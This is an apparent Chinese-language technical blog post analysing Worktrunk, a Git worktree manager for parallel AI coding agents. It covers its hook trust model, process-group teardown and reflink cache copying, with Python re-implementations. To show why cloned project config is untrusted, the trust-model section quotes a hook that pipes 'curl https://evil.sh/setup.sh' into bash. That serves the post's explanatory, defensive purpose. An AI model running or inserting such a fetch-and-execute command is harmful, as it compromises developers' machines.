



> **当你的 AI Agent 团队开始互相踩代码时，缺的不是更聪明的模型，而是一个 Git worktree 管理器。**
>
> Worktrunk 2026 年 1 月发布，10 个月冲到 **9,399⭐** / 336 fork / 80 位贡献者。它不是 Agent 框架，不接 LLM，不写一行 prompt——它做的是一件更底层的事：**给每个并行 Agent 一块物理上互不干扰的磁盘**，然后让这件事像切分支一样自然。

---

## 前言：并行 Agent 的隐形地雷

2026 年下半年，几乎每个 Harness 都在谈「多 Agent 并行」。但翻遍这些项目的文档，会发现一个共同的空白：**它们都在讲 Agent 之间怎么传消息、怎么分配任务，却很少认真讲 Agent 之间怎么不互相破坏文件。**

这不是小问题。设想这个场景：

```
Agent A: 正在重构 src/auth/ 模块，已经改了 40 分钟
Agent B: 被派去修 auth 的一个 bug，读到的是 5 分钟前的 src/auth/
Agent C: 在 main 分支上跑测试，读到的是完全不同的代码
```

三个 Agent 共享同一个工作目录（working tree）。它们各自的 Context 里都有一套「当前代码长什么样」的世界模型，而这**三套模型会在几十秒内全部过期**。等到 A 完成要提交时，`git diff` 里混着 B 和 C 的改动；而 B 提交时会把 A 的半成品一起带上。

这不是模型能力问题。这是**物理隔离问题**。

Git 在 2018 年（`git worktree`）就给出了答案：为每个分支创建独立的工作目录。但原生 UX 糟糕到没人愿意用——创建一个 worktree 要把分支名敲三遍：

```bash
git worktree add -b feat ../repo.feat   # 敲一次分支名
cd ../repo.feat                          # 再敲一次路径
claude                                    # 启动 Agent
```

**Worktrunk 的全部使命，就是把这三行压缩成一行**：

```bash
wt switch -c -x claude feat
```

本文会逐行拆开它在这背后藏着的三层原语，以及一个我觉得比三层原语更值得学的设计决策。

---

## 一、项目定位：Harness 里的「物理隔离层」

### 1.1 它在 Harness 6 件套矩阵里的位置

Worktrunk 不覆盖 6 件套里的任何一件，它填的是 6 件套之间的缝——**隔离与编排的缝隙**。

| Harness 组件 | Worktrunk 是否覆盖 | 说明 |
|---|---|---|
| Rule（团队政策） | ❌ | 不读 CLAUDE.md |
| Skill（SOP） | ❌ | 不加载 SKILL.md |
| Sub-Agent（角色分工） | ❌ | 不创建子 Agent |
| Workflow（交接规则） | ⚠️ 部分 | 14 个 Hook 时点构成工作流，但**不描述 Agent 间语义协作** |
| Script（硬关卡） | ✅ **核心** | `step tether` / `step copy-ignored` / Hook 流水线都是不可绕过的脚本关卡 |
| MCP（外部桥接） | ❌ | 不注册任何 tool |

**它的定位是 Script 组件 + Sub-Agent 隔离基础设施。** 说得更直白：LangGraph 决定 Agent A 什么时候把活交给 Agent B，Worktrunk 决定**这两个 Agent 的文件改动如何在物理上不打架**。

### 1.2 为什么这类项目突然火了

Worktrunk 的 topics 里直接写了 `claude-code` + `codex`。这说明它的设计目标非常明确：**给 Claude Code / Codex 这类能跑长任务的 Agent 提供并行底座**。

时间线对得上：

- 2024–2025：Agent 只能跑 30 秒就断，没有人需要并行
- 2026 上半年：Claude Code 支持跑几十分钟，单 Agent 足够
- 2026 下半年：Agent 能力溢出，**一个人开始同时开 5–10 个 Agent**，并行的文件冲突从「偶发 annoying」升级成「每天都崩溃」

Worktrunk 的 README 里写得很直白：

> AI agents like Claude Code and Codex can handle longer tasks without supervision, such that it's possible to manage 5-10+ in parallel.

**5-10 个并行 Agent，不是理论场景，是当下事实。** 而这个数字直接决定了整个项目的设计取向。

---

## 二、架构分析：三个核心命令撑起一切

### 2.1 三个核心命令



### 2.2 地址寻址：worktree 用分支名而非路径

第一个值得学的小设计：**Worktrunk 强制你用分支名（branch name）标识 worktree，路径由模板算出来。**

```toml
# ~/.config/worktrunk/config.toml
[worktree]
path_template = "../{{project}}.{{branch}}"
```

源码 `src/git/repository/worktrees.rs` 里的逻辑是：给定一个 selector（分支名、PR 号、目录名、甚至 worktree 路径本身），解析出它的 worktree 路径。README 里明确说了：

> Worktrees are addressed by branch name; paths are computed from a configurable template. Commands that take a branch also accept the path of the worktree it is checked out in.

**为什么这个设计重要？** 因为路径是**派生物**。如果你让用户手动管路径，你会得到：路径拼错、worktree 挪了位置后命令失效、`.git/worktrees/` 里残留孤儿目录。**把路径降级成模板渲染的结果，等于消灭了一整类 bug 的来源。**

### 2.3 14 个 Hook 时点：Script 组件的完整覆盖

`src/git/mod.rs` 里的 `HookType` 枚举是整个 Script 组件的骨架：

```rust
// src/git/mod.rs:546
pub enum HookType {
    PreSwitch, PostSwitch,
    #[strum(to_string = "pre-start", serialize = "pre-create")]
    #[serde(rename = "pre-start", alias = "pre-create")]
    PreCreate,
    #[strum(to_string = "post-start", serialize = "post-create")]
    PostCreate,
    PreCommit, PostCommit,
    PreMerge,  PostMerge,
    PreRemove, PostRemove,
}

impl HookType {
    /// True for `pre-*` hooks. `pre-*` hooks block the operation and propagate
    /// failures fail-fast; `post-*` hooks run after success and default to
    /// background-with-warn.
    pub fn is_pre(self) -> bool {
        match self {
            HookType::PreSwitch | HookType::PreCreate | HookType::PreCommit
            | HookType::PreMerge | HookType::PreRemove => true,
            HookType::PostSwitch | HookType::PostCreate | HookType::PostCommit
            | HookType::PostMerge | HookType::PostRemove => false,
        }
    }
}
```

这里有两个细节值得单独拎出来。

**细节 1：`pre-*` 与 `post-*` 的失败语义完全不同。**

- `pre-*` 失败 → **fail-fast，整个命令中止**（这是「门」）
- `post-*` 失败 → **后台执行 + 打警告，操作照常成功**（这是「通知」）

这个切分和 Unix 的 `set -e` 语义一致，也是 CI 里 pre-commit hook vs post-commit hook 的传统划分。**Worktrunk 没有发明它，但把它做成了显式的类型系统而不是隐式约定。**

**细节 2：`is_pre` 用穷尽 match 而不是 `matches!` 宏。**

```rust
// 源码原文注释：
// Uses an exhaustive match (not `matches!`) so a new variant trips a
// compile-time nudge instead of silently classifying as post-*.
```

加一个新的 HookType 变体时，编译器会强制你决定它是 pre 还是 post。**这是一个 3 行的注释保护了一个真实的 bug 类别**——新加的 Hook 忘了分类，默认被当成 post（不阻断），于是本该门禁的东西变成了通知。这类 bug 在 Rust 的类型系统 + 穷尽 match 下几乎绝迹，值得抄。

---

## 三、原语一：Approve at the Gate（两层信任模型）

这是我在这篇文章里最想讲的一个设计。

### 3.1 问题：项目配置是不可信代码

Worktrunk 支持两层配置：

| 配置文件 | 来源 | 信任度 |
|---|---|---|
| `~/.config/worktrunk/config.toml` | 用户自己写的 | **可信**（自己写的东西自己负责） |
| `.config/wt.toml`（仓库里的） | **clone 下来的** | **不可信** |

第二层是关键。想象你 clone 了一个看起来很酷的开源项目，它在 `.config/wt.toml` 里写着：

```toml
[hooks.post-start]
commands = [
  { name = "setup", template = "curl https://evil.sh/setup.sh | bash" },
]
```

如果你 `wt switch -c feat` 时它自动执行了这条命令——**你的开发机就被拿下了。** 这不是假设，这是所有「仓库内配置文件」类攻击的通用形态（npm 的 `postinstall`、Makefile 的默认 target、VS Code 的 `tasks.json` 都栽过这一跟头）。

### 3.2 Worktrunk 的解法：信任来源分层 + 一次性闸门

`src/config/hooks.rs` 用一个枚举把信任度编码进类型：

```rust
// src/config/hooks.rs
pub enum HookSource {
    /// User config (~/.config/worktrunk/config.toml). No approval required.
    User,
    /// Project config (.config/wt.toml). Approval is handled at the gate.
    Project,
}
```

然后 `src/commands/command_approval.rs` 的文件头注释把整个模式说得很清楚：

```rust
//! # "Approve at the Gate" Pattern
//!
//! Commands that run hooks should approve all project commands **upfront** before any execution:
//!
//! ```text
//! User runs command
//!     ↓
//! approve_hooks() ← Single approval prompt
//!     ↓
//! Execute hooks (approval already done)
//! ```
//!
//! This ensures approval happens exactly once at the command entry point,
//! eliminating the need to thread `auto_trust` through execution layers.
```

**这段注释值得逐句拆。** 关键在于最后一句：*eliminating the need to thread `auto_trust` through execution layers*。

一个常见的错误做法是：把「是否已授权」这个布尔值沿着调用链一路传下去——`execute_hook(cmd, auto_trust: bool)` → `run_pipeline(cmd, auto_trust)` → `spawn(cmd, auto_trust)`。每加一层执行逻辑就要多传一个参数，忘了传就是安全漏洞。

Worktrunk 的选择是：**在唯一的入口处一次性把授权做完，执行层完全不感知授权状态。** 这是一个纯机制上的选择，但工程含义巨大——新增任何执行路径都不会绕过闸门，因为闸门在入口，不在路径。

### 3.3 第二个细节：审批状态存独立文件

```rust
// src/config/approvals.rs 文件头
//! Approved commands are stored in `~/.config/worktrunk/approvals.toml`, separate
//! from portable user configuration in `config.toml`. This allows dotfile management
//! of config.toml without machine-local trust state.
```

为什么要拆成两个文件？因为 **配置是可移植的，信任状态不可移植。**

你的 `config.toml` 会通过 dotfile / chezmoi 同步到 5 台机器。但你在**这台**机器上批准过的项目命令，不应该自动在**那台**机器上也获得信任——那台机器可能有不同的网络环境、不同的凭据。**把可移植的（配置）和不可移植的（信任）分开，是安全设计里被反复验证的模式。**

### 3.4 第三个细节：`--yes` 不落盘

```rust
// src/commands/command_approval.rs
/// `yes` grants consent for this invocation alone: nothing is recorded, so the
/// next run asks again. Recording without a prompt is `wt config approvals
/// add --yes`'s job, which doesn't pass through this gate.
```

**自动化脚本里的 `--yes` 不写进信任存储。** 这一点很多人会做错：以为 `--yes` 就是「以后都信任」。Worktrunk 明确把它切成两个语义：

- `wt switch --yes` → 本次放行，下次再问（CI / 脚本用）
- `wt config approvals add --yes` → 显式写入信任（人主动操作）

而且后者的实现里有一段注释很有意思：

```rust
/// The batch `wt config approvals add --yes` is about to trust. Nothing is
/// being asked, but the batch still prints: it is the record of what an
/// unattended run just approved.
```

**即使在「不问」的路径上也打印即将信任的内容。** 这是一条无人在场时也要留痕的审计规则—— unattended 运行批准了什么，必须可回溯。

### 3.5 可运行复刻：三层信任模型 MVP

下面是 Python 复刻，直接对应 `command_approval.rs` 的语义：

```python
@dataclass
class Command:
    """一条命令模板（不展开、不执行，只用于审批展示与哈希）。"""
    template: str
    name: Optional[str] = None


@dataclass
class ApprovableCommand:
    phase: str
    command: Command

    def label(self) -> str:
        if self.command.name:
            return f"{self.phase} {self.command.name}:"
        return f"{self.phase}:"


class Approvals:
    """审批状态存储。对应 Rust 的 src/config/approvals.rs。

    真实实现把审批存在独立于 config.toml 的 approvals.toml 里，
    这样 dotfile 管理 config.toml（可移植）不会把「本机信任状态」一起同步出去。
    本 MVP 用内存 dict 复刻同样的语义边界。
    """

    def __init__(self) -> None:
        self._store: Dict[str, List[str]] = {}

    def is_command_approved(self, project_id: str, template: str) -> bool:
        return template in self._store.get(project_id, [])

    def approve_commands(self, project_id: str, templates: List[str]) -> None:
        cur = self._store.setdefault(project_id, [])
        for t in templates:
            if t not in cur:
                cur.append(t)


def approve_command_batch(commands, project_id, approvals, assume_yes=False) -> bool:
    """闸门函数：一次性批准整批项目命令。返回 True 表示可以继续执行。"""
    if assume_yes:
        # --yes 只授权本次调用，不落盘 —— 下次还会再问。
        return True

    needs = [c for c in commands
             if not approvals.is_command_approved(project_id, c.command.template)]
    if not needs:
        return True

    name = Path(project_id).name or project_id
    print(f"\n⚠️  项目 {name} 请求执行 {len(needs)} 条命令（来自 .config/wt.toml）:")
    for c in needs:
        print(f"  ○ {c.label()}")
        print(f"    {c.command.template}")

    try:
        answer = input("  信任这些命令并记住? [y/N] ").strip().lower()
    except EOFError:
        answer = "n"

    if answer not in ("y", "yes"):
        return False

    approvals.approve_commands(project_id, [c.command.template for c in needs])
    print(f"  ✅ 已记录 {len(needs)} 条审批\n")
    return True
```



**实测运行输出**（含 4 轮完整状态流转）：

```
[第 1 次运行] assume_yes=True —— 授权但不落盘
  落盘记录数 = 0  ← 0，下次还会再问

[第 2 次运行] 交互式，用户输入 n
⚠️  项目 myrepo 请求执行 2 条命令（来自 .config/wt.toml）:
  ○ post-start deps:
    npm install
  ○ post-start server:
    npm run dev
  信任这些命令并记住? [y/N] n
  → 拒绝，整个 wt switch 被中止（fail-fast）

[第 3 次运行] 模拟用户输入 y
  ✅ 落盘记录 = {'/home/me/repo/myrepo': ['npm install', 'npm run dev']}

[第 4 次运行] 同样的命令再来一次
  待审批命令数 = 0  ← 0，闸门直接放行，不再打扰用户
```

注意第 4 轮：**已批准的命令不再打扰用户，但审批的是「模板」而不是「这一次运行的展开值」。** 这也是 `print_command_batch` 注释里强调的：

> Shows command templates to the user (what gets saved to config), not expanded values. This ensures users see exactly what they're approving.

---

## 四、原语二：step tether（进程组守护）

### 4.1 问题：Agent 留下的孤儿进程

并行 Agent 场景下有一个非常具体的泄漏：

```
wt remove feature-x    ← 你删掉了 worktree
                        ← 但 feature-x 的 dev server 还在跑
                        ← 占着 :3000，下一个 worktree 起不来
```

表面上看是「kill 一下进程」就能解决。问题是：**怎么找到那个进程？**

Worktrunk 的 `src/commands/step/tether.rs` 文件头把这个困境写得比任何博客都清楚：

```rust
//! `tether -- CMD…` starts CMD in a new process group and supervises it. The
//! whole tree is torn down when CMD exits on its own, or the worktree the
//! command runs in is removed.
//!
//! The process group is the point. `npm run dev` spawns an esbuild
//! `--service` sidecar that does not listen on the dev-server port; a port- or
//! parent-based kill misses it. Putting CMD in its own group at spawn keeps
//! every descendant reachable for one teardown call.
```

翻译成场景：`npm run dev` 会 spawn 一个 **esbuild `--service` sidecar**，这个 sidecar **不监听 dev server 的端口**。

于是三种朴素方案的失效方式一目了然：

| 朴素方案 | 为什么漏 |
|---|---|
| 按端口 kill | esbuild sidecar 不占端口 → 漏 |
| 按父进程 kill | sidecar 已经 reparent 到 PID 1 → 漏 |
| 登记 `pre-remove` hook 手动 kill | 你得知道每个项目的 sidecar 名字 → 不可能通用 |

**进程组是唯一可靠的答案**：在 spawn 那一刻用 `setsid()` 让 CMD 自成组长，此后它的**所有后代都在同一个 pgid 里**，一次 `killpg` 全到。

### 4.2 探测方式：轮询而不是文件系统 watcher

第二个细节，同样是文件头注释：

```rust
//! Removal detection is a poll, not a kqueue/inotify watch: a `symlink_metadata`
//! of one path is portable, has no arm-time race, behaves identically on every
//! platform, and registers no filesystem watcher — the proliferation of which
//! is the very problem this command exists to avoid. The 250ms interval bounds
//! teardown latency for an already-orphaned server, which no one observes.
```

拆解这段话的四个理由：

1. **portable** — 一次 `symlink_metadata` 在所有平台行为一致
2. **no arm-time race** — kqueue/inotify 有「注册前事件已发生」的竞态，stat 没有
3. **behaves identically on every platform** — Windows 上没有 inotify，只能退回轮询
4. **不注册 watcher** — 文件系统 watcher 的**泛滥本身**就是这个命令要解决的问题

第 4 点是精髓。Worktrunk 要管理的场景是 **10 个 worktree × 10 个 dev server = 100 个常驻进程**。如果每个都注册 inotify watch，你就是在给自己造一个 FD 泄漏 + 事件风暴。**「轮询一个 stat」在这个规模下是最优解，而且优雅地反直觉。**

`POLL_INTERVAL = 250ms` 的取值也有理由：它给「已经孤儿化的 server」的最大回收延迟是 250ms——**而没人会观察到 250ms。**

### 4.3 可运行复刻：进程组守护

```python
import os, signal, subprocess, time

POLL_INTERVAL = 0.25  # 250ms，对应 Rust 的 POLL_INTERVAL


def step_tether(command, worktree: Path, poll=POLL_INTERVAL) -> int:
    """启动命令并托管它的整棵进程树。

    命令自己退出，或 worktree 被删除（symlink_metadata 探测）时，
    整组进程被 SIGTERM -> SIGKILL 回收。
    """
    proc = subprocess.Popen(
        command,
        start_new_session=True,  # 关键：setsid()，让子进程自成进程组组长
        stdout=subprocess.DEVNULL,
        stderr=subprocess.DEVNULL,
    )
    pgid = proc.pid
    print(f"  🪝 tethered pid={proc.pid} pgid={pgid} watching {worktree}")

    def teardown(reason: str) -> None:
        print(f"  🔪 teardown pgid={pgid} ({reason})")
        try:
            os.killpg(pgid, signal.SIGTERM)
            time.sleep(0.2)
            os.killpg(pgid, signal.SIGKILL)  # 残留的孤儿进程也一起清掉
        except ProcessLookupError:
            pass  # 组已经空了

    while True:
        code = proc.poll()
        if code is not None:
            teardown(f"command exited {code}")
            return code
        # 用 symlink_metadata 而非 inotify/kqueue：
        # 单路径 stat 跨平台、无 arm-time 竞态、不注册任何文件系统 watcher。
        if not worktree.exists():
            teardown("worktree removed")
            proc.kill()
            return -1
        time.sleep(poll)
```

**实测运行输出**：

```
🪝 tethered pid=2367441 pgid=2367441 watching /tmp/wt_demo_worktree
sidecar 落地 = True  ← 父进程之外确实还有活进程

[动作] 删除 worktree（模拟 wt remove）
🔪 teardown pgid=2367441 (worktree removed)
守护进程退出码 = -1  ← -1 表示因 worktree 消失而回收
```

演示脚本里我特意让 `npm run dev` 的模拟体 spawn 了一个 `time.sleep(600)` 的孙进程——**它不占端口、不监听任何东西、只有进程组能找到它**。回收成功。

### 4.4 跨平台的诚实

文件头最后一段还坦白了 Windows 的局限：

```rust
//! Platform teardown differs. Unix sweeps the process group with a bounded
//! `SIGTERM` → `SIGKILL` escalation (`killpg`), which still reaches a child
//! that reparented to PID 1 after CMD exited. Windows has no killable process
//! group, so `taskkill /T /F` terminates CMD's process tree; it reaches every
> descendant while CMD is alive ..., but a child that detaches *after* CMD
//! self-exits can outlive it — Windows neither reparents to a single init nor
> offers a pgid.
```

**明确写出自己在 Windows 上有已知缺口，并解释根因（Windows 既不把孤儿 reparent 到统一 init，也不提供 pgid）。** 这种写法在开源项目里比"我们全平台完美支持"诚实得多，也更容易让人信任其余部分。

---

## 五、原语三：reflink CoW 共享构建缓存

### 5.1 问题：10 份 target/

回到「5-10 个并行 Agent」这个数字。如果你的项目是 Rust：

```
主 worktree       target/    = 3.2 GB
feature-a         target/    = 3.2 GB  ← 重新编译 4 分钟
feature-b         target/    = 3.2 GB  ← 重新编译 4 分钟
... × 10 个 worktree = 32 GB 磁盘 + 40 分钟编译
```

`.gitignore` 把 `target/` 排除在版本控制外，所以 **worktree 机制天然不会帮你复制它**——每个新 worktree 都是干净的，`target/` 完全没有。Worktrunk 的解法是 `wt step copy-ignored`，用 CoW（copy-on-write）让 10 个 worktree 共享同一份磁盘数据。

### 5.2 reflink：只复制目录项，不复制数据块

`src/commands/step/copy_ignored.rs` 的文件头：

```rust
//! Handle `wt step copy-ignored` command
//!
//! Copies gitignored files from a source worktree to a destination worktree.
//! If a `.worktreeinclude` file exists, only files matching both `.worktreeinclude`
//! and gitignore patterns are copied. Without `.worktreeinclude`, all gitignored
//! files are copied. Uses COW (reflink) when available for efficient copying of
//! large directories like `target/`.
```

reflink 和普通 copy 的区别可以用一句话说清：

- **普通 copy**：分配新块，把 3.2GB 数据真的写一遍 → 32GB 磁盘 + 40 分钟
- **reflink**：在目录树里建一个新条目，指向**同一批磁盘 extents** → 几 KB 元数据 + 毫秒

只有当你**写入**某个文件时，文件系统才真正复制那一个文件的块（copy-on-write）。**只读场景（编译缓存正是只读的）下 10 份 target/ 的物理占用 ≈ 1 份。**

Worktrunk 支持 APFS（macOS 默认）、btrfs、XFS（Linux），这三者的 `cp -c` / `cp --reflink` 都实现了 reflink syscall。

### 5.3 `.worktreeinclude`：白名单而不是全量

Worktrunk 不复制**所有** gitignored 文件，只复制 `.worktreeinclude` 里显式声明的：

```
# .worktreeinclude（Worktrunk 仓库自己就带了这个文件）
# Files to copy between worktrees (must also be gitignored)
# Used by: wt step copy-ignored

target/
```

**为什么是白名单？** 因为「所有 gitignored 文件」里混着 `.env`（含密钥）、`local.db`（本地调试数据）、`.venv/`（含绝对路径的符号链接）。全量复制 = 把本地密钥复制到 10 个目录，且 `.venv` 里的相对链接会被拉成副本炸弹。

MVP 里我复刻了这个符号链接保护：

```python
def copy_dir_reflink(src: Path, dst: Path, stats: CopyStats) -> None:
    """递归复制目录，文件级优先用 reflink。"""
    dst.mkdir(parents=True, exist_ok=True)
    for entry in src.iterdir():
        target = dst / entry.name
        if entry.is_symlink():
            # 符号链接原样重建，不跟随 —— 跟随会把 .venv 里的绝对路径链接拉成副本炸弹
            os.symlink(os.readlink(entry), target)
            continue
        if entry.is_dir():
            copy_dir_reflink(entry, target, stats)
            continue
        size = entry.stat().st_size
        if _HAS_REFLINK and sys.platform == "darwin":
            # macOS: cp -c = APFS reflink，O(1) 且零额外磁盘
            try:
                subprocess.run(["cp", "-c", str(entry), str(target)],
                               check=True, capture_output=True)
            except subprocess.CalledProcessError:
                target.write_bytes(entry.read_bytes())
        else:
            target.write_bytes(entry.read_bytes())   # Linux 无 reflink 时的 fallback
        stats.files += 1
        stats.bytes += size
```

**实测运行输出**（Linux 环境，走 `copy` fallback 分支）：

```
.worktreeinclude 声明的模式 = ['target/']
复制完成：6 个文件 / 2,424,832 字节 / mode=copy / 0.003s
校验：dst/target/debug/app.bin 存在 = True
校验：内容一致 = True

逻辑大小：源 2,424,832 B / 副本 2,424,832 B
注：CoW 文件系统上 reflink 实际占用接近 0 —— 只建目录项，不复制数据块
```

`mode=copy` 是我这个沙箱跑在 Linux + ext4 上走了 fallback。在 APFS 上同一段代码会输出 `mode=reflink`。**MVP 诚实地暴露了降级路径**，而不是假装两种模式一样快。

---

## 六、设计哲学：Bitter Lesson 的三种态度

Sutton 的 Bitter Lesson 说：长期看，能被算力/规模消化的通用方法会赢过人类精心编码的领域知识。把它套到 Harness 工程上，问题是：**哪些代码是「聪明但终将被淘汰」的？**

Worktrunk 的答案分成三类，态度非常清楚。

### 6.1 该淘汰的：路径字符串拼装

原生 git worktree 的路径管理（`../repo.feat`）本质是**让人类手工维护一个约定**。Worktrunk 用模板渲染彻底消除了它。

**这是典型的 Bitter Lesson-compliant 设计**：不再往代码里加「特殊 case 判断」，而是加一个可配置模板让约定自动成立。约定越少，代码越少。

### 6.2 该淘汰的：进程身份的手工追踪

`step tether` 之前的做法是「记录 pid 文件 → 手动 kill」。这是典型的**在算力/内核能力之外的领域手工编码**。进程组是内核提供的原语，`setsid()` 是单个 syscall——**用内核原语替代人类手工维护的 pid 簿记**，正是 Bitter Lesson 推崇的方向。

### 6.3 永远不该淘汰的：物理隔离本身

这是我认为最值得讨论的一点。

Bitter Lesson 会说：「更强的模型不需要隔离，因为它自己知道自己在改什么。」**但这个项目赌的是相反的方向**：模型再强，它也读不到被另一个进程正在写的文件。**文件系统语义不会因为模型变强而改变。**

Worktrunk 的赌注是：**模型的智能会继续涨，但对物理世界的正确性要求不会变。** 你可以让模型自己判断「我这次改动会不会影响别人」，但你没法让它自己去解决两个进程同时写同一个 inode 的问题。**外部物理世界必需的东西，不该交给模型学。**

这和 Less-is-More 检查里那条判据完全吻合：

> 哪些组件是「模型自己能学会的」、哪些是「外部物理世界必需的」？

Worktrunk 全部 277 个源文件，没有一行是在教模型「怎么思考」。**它只做三件模型做不到的事：给隔离、给回收、给共享。** 这种克制是一种很少见的工程品位。

---

## 七、横向对比：三个同赛道项目

「并行 Agent 的文件隔离」这个赛道现在至少有四个项目。它们的分歧点非常清晰。

### 7.1 四个项目定位对比

| 项目 | ⭐ | 语言 | 定位 | 核心机制 |
|---|---:|---|---|---|
| **max-sixty/worktrunk** | 9,399 | Rust | **worktree 管理器**（不做任务编排） | 分支名寻址 + 两层信任 Hook + 进程组守护 + reflink |
| **automazeio/ccpm** | 8,415 | Shell | **项目管理 skill**（PRD → epic → issue） | GitHub Issues 作为唯一状态源 + Agent Skill 格式 |
| **coollabsio/jean** | 1,355 | TS | Agent 开发环境 | worktree + 统一 shell |
| **max-sixty/worktrunk 生态**：`agent-worktree`（280⭐）、`worktrunk` 等 | — | — | 轻量替代 | 仅 worktree add/remove |

### 7.2 设计差异：抽象层次完全不同

**ccpm 的抽象层次是「意图层」。** 它的 README 说得很清楚：

> Spec-driven development for AI agents – ship ~~faster~~ _better_ using PRDs, GitHub issues, and multiple agents running in parallel.
>
> Turn ideas into PRDs, PRDs into epics, epics into GitHub issues, and issues into production code — with full traceability at every step.

它的核心主张是 **「No Vibe Coding」**——不信任模型对需求的理解，要求先把想法写成 PRD，再拆成 GitHub issue，最后 issue 才变成代码。**这是把「需求正确性」外包给流程。**

它的一个重要设计是把自己做成一个 **Agent Skill**（`agentskills.io` 兼容格式），而不是一个独立 CLI：

> **CCPM is now an AGENT SKILL!** It works with any Agent Skills–compatible harness: Claude Code, Codex, OpenCode, Factory, Amp, Cursor, and more.

**这是一个很聪明的选择**：不做运行时，只做提示词 + 状态机。代价是不确定性——你无法保证 Agent 真的按 PRD 走；收益是零安装成本 + 全 Harness 通用。

**Worktrunk 的抽象层次是「物理层」。** 它完全不关心你的需求从哪来、issue 怎么写、PR 怎么审。它只回答一个问题：**10 个 Agent 的文件改动怎么不打架。**

### 7.3 为什么这个分歧是对的

两者不冲突，是**互补的两端**：



有意思的是，**Worktrunk 的 README 完全没有提 agent、没提 LLM、没提 prompt**（topics 里虽然有 `claude-code`，但描述是「designed for running AI agents in parallel」，说的是用途不是能力）。**这种克制反过来证明它选对了抽象层次**——真正的基础设施不需要讨论上层。

### 7.4 一张表看完四个项目的取舍

| 维度 | Worktrunk | ccpm | jean | agent-worktree |
|---|---|---|---|---|
| 状态存储 | git 本体 | GitHub Issues | git + 本地 | git 本体 |
| 安全模型 | ✅ 两层信任 + 审批落盘独立文件 | ❌ 无（纯 skill） | ⚠️ 未见 | ❌ 无 |
| 进程回收 | ✅ 进程组 + 250ms 轮询 | ❌ | ❌ | ❌ |
| 构建缓存共享 | ✅ reflink CoW | ❌ | ❌ | ❌ |
| 多 Harness 适配 | ✅ 通用（不依赖任何 harness） | ✅ Skill 格式 | ⚠️ | ✅ |
| 编排能力 | ❌ 只管文件 | ✅ PRD→issue 全链 | ⚠️ | ❌ |
| 语言 | Rust（277 文件） | Shell | TypeScript | Rust |

**一句话总结差异：Worktrunk 是唯一的「基础设施」，其他三个是「流程工具」。** 基础设施的价值在于你不注意到它——装上之后它就不在了。

---

## 八、优缺点分析

### 8.1 左侧：架构简洁性 / 扩展性 / 易用性

| 维度 | 评价 | 依据 |
|---|---|---|
